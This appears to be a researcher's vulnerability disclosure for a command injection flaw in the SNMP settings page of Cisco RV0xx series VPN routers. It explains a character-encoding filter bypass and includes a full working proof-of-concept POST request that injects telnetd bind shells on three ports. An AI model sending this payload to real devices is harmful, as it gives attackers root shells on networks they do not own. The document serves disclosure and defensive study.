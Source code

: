 # Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

**Affected firmware version:**

4.2.3.14 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

# Overview

`Cisco RV0xx Series VPN Routers` was detected with a `command injection vulnerability`. The vulnerability is caused by lax filtering of dangerous characters. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/ssi.cgi`** binary.

In the function `NK_SNMPUpdate`, the `snmp_Mib2SysName` field obtained from the `POST` request message is stored in the `acStack1622` variable. When the `acStack1622` content does not contain certain dangerous characters, it can be concatenated directly into the `acStack1110` string and executed as an argument to the `system` function.

![](./pic/30.png)

However, **the dangerous characters `\n` and `\r` that can separate commands are not filtered here**. But by actual test of this series of devices, we found some characters will be escaped in the process of data transmission, such as `%0a` representing `\n` will be escaped to `%2a`, which is the `*` symbol. From this escape pattern, we can conclude that **`%ea` will be escaped to `\n` we need**. Similarly, the `%20` encoding representing a space will be escaped to another character. Fortunately, **`%09` for Tab can be used instead of space**, and `%09` is not escaped here. In this case, we can construct a command like **`%ea/usr/sbin/telnetd%09-l%09/bin/sh%ea`** to bypass the filter and the escape.

In the same way, the `snmp_Mib2SysContact` and the `snmp_Mib2SysLocation` fields with similar vulnerabilities can also be injected into malicious commands and executed.

![](./pic/31.png)

# Poc

Send the following `POST` request packets, and inject malicious commands into `snmp_Mib2SysName`, `snmp_Mib2SysContact` and `snmp_Mib2SysLocation` fields.

```
POST /sys_snmp.htm HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=FqgbQ5aBA5wTvwGiB8wRcQ==
Content-Length: 249
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="110", "Not A(Brand";v="24", "Google Chrome";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.1/sys_snmp.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=sys_snmp.htm&submitStatus=1&log_ch=1&snmpStatusChange=1&snmpStatus=0&snmp_Mib2SysName=router61120c%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%091111%ea&snmp_Mib2SysContact=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%092222%ea&snmp_Mib2SysLocation=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%093333%ea&snmp_GetCommunity=public&snmp_SetCommunity=private&snmp_TrapCommunity=public&snmp_SendTrap=
```

# Attack Demo

Follow the `POC` above to make the request.

![](./pic/26.png)

After the attack is completed, we can find that the three malicious commands injected into the three fields have been successfully executed. Through ports `1111`, `2222` and `3333`, you can directly log in to the remote device and obtain the highest control of the device.

![](./pic/27.png)

![](./pic/28.png)

![](./pic/29.png)